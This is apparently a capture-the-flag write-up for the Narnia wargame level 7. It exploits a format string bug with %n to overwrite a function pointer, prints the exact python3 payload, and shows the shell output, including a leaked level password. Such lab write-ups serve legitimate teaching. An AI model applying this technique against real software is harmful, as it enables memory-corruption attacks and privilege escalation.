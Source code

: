![Index html](/assets/images/narnia/07-1.png)

This confirmed a format string vulnerability exists as we can see 41414141 which is the hex representation of AAAA. Now I can use %n to write to any arbitrary memory. I will change ptrf's value to hackedfunction. Luckily we are told where ptrf is in memory (0xffffd328). First I will put 0xffffd328 on the stack by writing it to the buffer. Next I will overwrite it with a new value, which will be the address of hackedfunction (0x804930f). Since %n writes however many bytes it has read, simply trying to write the address of hackedfunction in little endian will not work since %n will treat this as 4 bytes:
```bash
$(python3 -c 'import sys;sys.stdout.buffer.write(b"\x18\xd3\xff\xff" + b"\x0f\x93\x04\x08%2$n")')
```
Instead, we will need to write the decimal equivalent of the address of hackedfunction (0x804930f) which is 134517519 bytes. Instead of manually writing 134517515 more bytes, we will use the %d padding trick. This is our final payload:
```bash
$(python3 -c 'import sys;sys.stdout.buffer.write(b"\x18\xd3\xff\xff%134517515d%2$n")')
```
Note, I had to do a bit of guessing to find which argument 0xffffd318 was on the stack and in this case it was the 2nd argument hence why I use %2.
Running everything:
```bash
goodfunction() = 0x80492ea
hackedfunction() = 0x804930f

before : ptrf() = 0x80492ea (0xffffd318)
I guess you want to come to the hackedfunction...
Way to go!!!!$ whoami
narnia8
$ cat /etc/narnia_pass/narnia8      
i1SQ81fkb8
```

